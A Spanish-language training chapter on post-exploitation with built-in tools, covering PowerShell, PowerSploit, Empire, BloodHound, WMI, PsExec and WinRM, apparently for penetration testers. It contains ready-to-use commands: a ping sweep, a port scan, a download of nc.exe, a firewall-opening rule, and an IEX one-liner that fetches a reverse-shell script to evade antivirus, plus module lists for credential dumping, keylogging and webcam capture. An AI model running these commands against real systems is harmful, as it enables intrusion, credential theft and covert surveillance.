

# 8.2.3 - Servicios Públicos Legítimos y Vida de la Tierra
Muchas utilidades legítimas de Windows, como PowerShell, Windows Management Instrumentation (WMI) y Sysinternals, se pueden usar para actividades posteriores a la explotación, como se describe en las siguientes secciones. De manera similar, puede utilizar herramientas legítimas y aplicaciones instaladas en sistemas Linux y MacOS para realizar actividades posteriores a la explotación. Si un sistema comprometido tiene Python instalado, por ejemplo, puede usarlo para explotación y exfiltración adicionales. De manera similar, puede usar el shell de Bash y herramientas como Netcat después de la explotación.<br>
El uso de herramientas legítimas para realizar actividades posteriores a la explotación a menudo se denomina **_vivir de la tierra_** y, en algunos casos, **_malware sin archivos_**. El término _malware sin archivos_ se refiere a la idea de que no es necesario instalar ningún software adicional o binarios en el sistema comprometido. Ejemplos de técnicas posteriores a la explotación de vivir de la tierra incluyen lo siguiente:<br>

+ PowerShell para tareas posteriores a la explotación
+ PowerSploit y Empire
+ BloodHound
+ Instrumental de administración de Windows para tareas posteriores a la explotación
+ Sysinternals y PsExec
+ Administración Remota de Windows (WinRM) para tareas posteriores a la explotación

<hr>

### PowerShell para tareas posteriores a la explotación
Puede usar PowerShell para obtener listas de directorios, copiar y mover archivos, obtener una lista de procesos en ejecución y realizar tareas administrativas. La siguiente tabla enumera y describe algunos de los comandos de PowerShell más útiles que se pueden usar para tareas posteriores a la explotación.<br>

| Comando de PowerShell | Descripción |
|-----------------------|-------------|
| `Get-ChildItem` | Listas de directorios |
| `Copy-Item archivoOrigen.doc archivoDestino.doc` | Copia un archivo (cp, copy, cpi) |
| `Move-Item archivoOrigen.doc archivoDestino.doc` | Mueve un archivo (mv, move, mi) |
| `Select-String -path C:\Users \*.txt -pattern contraseña` | Busca texto en un archivo |
| `Get-Content usuario_adm_contraseñas.txt` | Imprime el contenido de un archivo |
| `Get-Location` | Obtiene el directorio actual |
| `Get-Process` | Obtiene una lista de procesos |
| `Get-Service` | Obtiene una lista de servicios |
| `Get-Process \| Export-Csv procs.csv` | Exporta la salida a un archivo de valores separados por comas (CSV) |
| `1..255 \| % {echo "10.1.2.$_"; ping -n 1 -w 100 10.1.2.$_ \| SelectString ttl}` | Inicia un barrido de ping a la red 10.1.2.0/24 |
| `1..1024 \| % {echo ((new-object Net.Sockets.TcpClient).Connect ("10.1.2.3",$_)) "Port $_ is open!"} 2>$null` | Inicia un escaneo de puertos al host 10.1.2.3 (escaneo de los puertos 1 a 1024) |
| `(New-Object System.Net.WebClient) DownloadFile ("http://10.1.2.3/nc.exe", "nc.exe")` | Obtiene un archivo a través de HTTP (similar al comando `wget` de Linux) |
| `Get-Hotfix` | Obtiene una lista de todas las revisiones instaladas |
| `cd HKLM:\`<br>`ls` | Navega por el registro de Windows |
| `Get-NetFirewallRule -all`<br>`New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.6.6.6` | Muestra y modifica las reglas del Firewall de Windows |
| `Get-Command` | Obtiene una lista de todos los comandos disponibles |

El siguiente comando de PowerShell se puede usar para evitar la detección por parte de productos de seguridad y software antivirus:<br>
```PowerShell
    PS> IEX (New-Object Net.WebClient).DownloadString('http:// /Invoke-PowerShellTcp.ps1')
```
Este comando carga directamente un archivo `PS1` de Internet en lugar de descargarlo y luego lo ejecuta en el dispositivo.<br>
La administración remota en Windows a través de PowerShell (a menudo denominada **_PS Remoting_**) es una característica básica que un administrador del sistema puede utilizar para acceder y administrar un sistema de forma remota. Un atacante también podría aprovechar esta función para realizar actividades posteriores a la explotación.<br>
__CONSEJO__: Para obtener detalles sobre cómo habilitar la comunicación remota de PowerShell, consulte *https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting*.
<hr>

### PowerSploit y Empire
PowerSploit es una colección de módulos de PowerShell que se pueden utilizar para la post-explotación y otras fases de una evaluación. La siguiente tabla enumera los módulos y scripts de PowerSploit más populares. Consulte *https://github.com/PowerShellMafia/PowerSploit* para obtener una lista completa y actualizada de scripts.<br>

| Módulo / Script | Descripción |
|-----------------|-------------|
| `Invoke-DllInjection` | Inyecta una DLL en el ID del proceso elegido |
| `Invoke-ReflectivePE Injection` | Carga de manera reflexiva un archivo de Windows PE (DLL/EXE) en el proceso de PowerShell o inyecta de manera reflexiva una DLL en un proceso remoto |
| `Invoke-ShellCode` | Inyecta ShellCode en el ID de proceso elegido o dentro de PowerShell localmente |
| `Invoke-WmiCommand`| Ejecuta PowerShell ScriptBlock en una computadora destino y devuelve su salida formateada con WMI como canal C2 |
| `Out-EncodedCommand` | Comprime, codifica en Base64 y genera una salida de línea de comandos para un script de carga útil de PowerShell |
| `Out-CompressedDll` | Comprime, codifica en Base64 y genera código para cargar una DLL administrada en la memoria |
| `Out-EncryptedScript` | Cifra archivos / scripts de texto |
| `Remove-Comments` | Elimina los comentarios y los espacios en blanco adicionales de un script |
| `New-UserPersistence Option` | Configura las opciones de persistencia a nivel de usuario para la función `Add-Persistence` |
| `New-ElevatedPersistence Option` | Configura opciones de persistencia elevada para la función `Add-Persistence` |
| `Install-SSP` | Instala una DLL del proveedor de soporte de seguridad (SSP) |
| `Get-SecurityPackages` | Enumera todos los paquetes de seguridad cargados |
| `Find-AVSignature` | Localiza firmas de AV de un solo byte con el mismo método que `Dsplit` de "clase101" |
| `Invoke-TokenManipulation` | Muestra los tokens de inicio de sesión disponibles, crea procesos con los tokens de inicio de sesión de otros usuarios y suplanta los tokens de inicio de sesión en el hilo actual |
| `Invoke-Credential Injection` | Crea inicios de sesión con credenciales de texto sin formato sin activar un ID 4648 de evento sospechoso (inicio de sesión de credenciales explícito) |
| `Invoke-NinjaCopy` | Copia un archivo de un volumen NTFS particionado leyendo el volumen sin procesar y analizando las estructuras NTFS |
| `Invoke-Mimikatz` | Carga Mimikatz 2.0 de forma reflexiva en la memoria mediante PowerShell y se puede utilizar para volcar las credenciales sin escribir nada en el disco, como para cualquier funcionalidad proporcionada con Mimikatz |
| `Get-Keystrokes` | Registra las teclas presionadas, el tiempo y la ventana activa |
| `Get-GPPPassword` | Recupera la contraseña de texto plano y otra información de las cuentas enviadas a través de las preferencias de política de grupo |
| `Get-GPPAutologon` | Recupera el nombre de usuario y la contraseña de inicio de sesión automático de registro.xml si se ingresan en las preferencias de política de grupo |
| `Get-TimedScreenshot` | Toma capturas de pantalla a intervalos regulares y las guarda en una carpeta |
| `New-VolumeShadowCopy` | Crea una nueva instantánea de volumen |
| `Get-VolumeShadowCopy` | Muestra las rutas de dispositivos de todas las instantáneas de volumen local |
| `Mount-VolumeShadowCopy` | Monta una copia de sombra de volumen |
| `Remove-VolumeShadowCopy` | Elimina una copia de sombra de volumen |
| `Get-VaultCredential` | Muestra objetos de credenciales de bóveda de Windows, incluidas credenciales web en texto sin formato |
| `Out-Minidump` | Genera un minivolcado de memoria completa de un proceso |
| `Get-MicrophoneAudio` | Graba audio del micrófono del sistema y lo guarda en el disco |
| `Set-MasterBootRecord` | Sobreescribe el registro de arranque maestro con un mensaje personalizado |
| `Set-CriticalProcess` | Hace que su máquina muestre una pantalla azul al salir de PowerShell |
| `PowerUp` | Actúa como cámara de compensación de controles comunes de escalamiento de privilegios, junto con algunos vectores de armamento |
| `Invoke-Portscan` | Realiza un escaneo de un solo puerto TCP utilizando sockets regulares basándose vagamente en Nmap |
| `Get-HttpStatus` | Devuelve los códigos de estado HTTP y la URL completa para las rutas especificadas cuando se proporcionan con un archivo de diccionario |
| `Invoke-ReverseDnsLookup` | Escanea un rango de direcciones IP en busca de registros PTR de DNS |
| `PowerView` | Realiza la enumeración y la explotación de la red y los dominios de Windows |

Cuando utiliza PowerSploit, normalmente expone los scripts al iniciar un servicio web. La imagen muestra que se está usando Kali Linux, con los scripts de PowerSploit ubicados en /usr/share/windows-resources/powersploit. Se inicia un servicio web simple con el comando `sudo python3 -m http.server 1337` (donde 1337 es el número de puerto). El sistema comprometido luego se conecta a la máquina del atacante (Kali) en el puerto 1337 y descarga un script de PowerSploit para la exfiltración de datos.<br>

<br>

Otro marco de trabajo post-explotación basado en PowerShell es __[Empire](https://github.com/EmpireProject/Empire)__, que es un marco de código abierto que incluye un agente de PowerShell para Windows y un agente de Python para Linux. Empire implementa la capacidad de ejecutar agentes de PowerShell sin la necesidad de PowerShell. Permite implementar rápidamente __módulos post-explotación__, incluidos __keyloggers__, __shells de enlace__ __shells revertidos__, __Mimikatz__ y comunicaciones adaptables para evadir la detección.<br>
El siguiente ejemplo muestra uno de los módulos de Empire (una instantánea de la cámara web de MacOS X). Este módulo toma una fotografía mediante la cámara web de un sistema MacOS X comprometido.<br>

```bash
    (Empire) > usemodule python/collection/osx/webcam
    (Empire: python/collection/osx/webcam) > info

                            Name: Webcam
                           Module: python/collection/osx/webcam
                       NeedsAdmin: False
                        OpsecSafe: False
                         Language: python
               MinLanguageVersion: 2.6
                       Background: False
                  OutputExtension: png

    Authors:
        @harmj0y

    Description:
        Takes a picture of a person through OSX’s webcam with an
        ImageSnap binary.

    Comments:
        http://iharder.sourceforge.net/current/macosx/imagesnap/

    Options:

     Name    Required  Value Description
     ----     -------- ------- -----------
     TempDir True       /tmp/   Temporary directory to drop the
                                  ImageSnap binary and picture.
                                   Agent True Agent to execute module on.
    (Empire: python/collection/osx/webcam)>
```

### BloodHound
Puede usar una aplicación web de JavaScript de una sola página llamada __[BloodHound](https://github.com/BloodHoundAD/Bloodhound)__ que usa la teoría de gráficos para revelar las relaciones ocultas en un entorno de Windows Active Directory. Un atacante puede utilizar BloodHound para identificar numerosas rutas de ataque. De manera similar, los equipos de respuesta a incidentes pueden usar BloodHound para detectar y eliminar esas mismas rutas de ataque.<br>
<hr>

### Instrumental de administración de Windows para tareas posteriores a la explotación (WMI)
Se utiliza para administrar datos y operaciones en sistemas operativos Windows. Puede escribir sentencias de comandos o aplicaciones de WMI para automatizar tareas administrativas en equipos remotos. WMI también proporciona funcionalidad para la administración de datos a otras partes del sistema operativo, incluido System Center Operations Manager y Administración Remota de Windows (WinRM). El malware puede utilizar WMI para realizar diferentes actividades en un sistema comprometido. Por ejemplo, el ransomware Nyeta utilizó WMI para realizar tareas administrativas.<br>
__NOTA__: WMI también se puede utilizar para realizar muchas operaciones de recopilación de datos. Por lo tanto, los evaluadores de penetración utilizan WMI como una herramienta de enumeración rápida del sistema.<br>
<hr>

### Sysinternals y PsExec
Sysinternals es un conjunto de herramientas que permite a los administradores controlar computadoras basadas en Windows desde una terminal remota. Puede utilizar Sysinternals para cargar, ejecutar e interactuar con ejecutables en hosts comprometidos.  La suite completa funciona desde una interfaz de línea de comandos y se puede programar. Mediante el uso de Sysinternals, puede ejecutar comandos que pueden revelar información sobre procesos en ejecución y puede eliminar o detener servicios. Los evaluadores de penetración comúnmente usan las siguientes herramientas de Sysinternals después de la explotación:<br>
+ __PsExec:__ Ejecuta procesos
+ __PsFile:__ Muestra los archivos abiertos
+ __PsGetSid:__ Muestra los identificadores de seguridad de los usuarios
+ __PsInfo:__ Brinda información detallada sobre una computadora
+ __PsKill:__ Elimina procesos
+ __PsList:__ Enumera información sobre los procesos
+ __PsLoggedOn:__ Enumera las cuentas que iniciaron sesión
+ __PsLogList:__ Extrae registros de eventos
+ __PsPassword:__ Cambia las contraseñas
+ __PsPing:__ Inicia las solicitudes de ping
+ __PsService:__ Realiza cambios en los servicios de Windows
+ __PsShutdown:__ Apaga una computadora
+ __PsSuspend:__ Suspende procesos

__PsExec__ es una de las herramientas más potentes de Sysinternals. Puede usarlo para ejecutar de forma remota cualquier cosa que pueda ejecutarse en un símbolo del sistema de Windows. También puede usar PsExec para modificar los valores de registro de Windows, ejecutar scripts y conectar un sistema comprometido a otro sistema. Para los atacantes, una ventaja de PsExec es que la salida de los comandos que ejecuta se muestra en su sistema (el sistema local) en lugar de en el sistema de la víctima. Esto permite que los usuarios remotos no detecten a un atacante.<br>
__CONSEJO__: La herramienta PsExec también puede copiar programas directamente en el sistema de la víctima y eliminarlos después de que cese la conexión.<br>

Debido a la opción `-i`, el siguiente comando PsExec interactúa con el sistema comprometido para iniciar la aplicación de la calculadora y la opción `-d` devuelve el control al atacante antes de que se complete el inicio de calc.exe:
```PowerShell
    > PsExec VICTIM -d -i calc.exe
```
También puede utilizar PsExec para editar los valores del registro, lo que significa que las aplicaciones pueden ejecutarse con privilegios del sistema y tener acceso a los datos que normalmente están bloqueados. Esto se demuestra en este ejemplo:<br>
```PowerShell
    > PsExec -i -d -s regedit.exe
```
<hr>

### Administración remota de Windows (WinRM) para tareas posteriores a la explotación
Ofrece una forma legítima de conectarse a los sistemas Windows. WinRM generalmente se administra mediante la política de grupo de Windows (que se usa generalmente para administrar entornos corporativos de Windows).<br>
WinRM puede ser útil para las actividades post-explotación. Un atacante podría permitir que WinRM permita más conexiones a los sistemas comprometidos y mantenga el acceso persistente. Puede habilitar fácilmente WinRM en un sistema Windows con el siguiente comando:<br>
```PowerShell
    > Enable-PSRemoting -SkipNetworkProfileCheck -Force
```
Este comando configura el servicio WinRM para iniciarse automáticamente y establece una regla de firewall para permitir conexiones entrantes al sistema comprometido.<br>

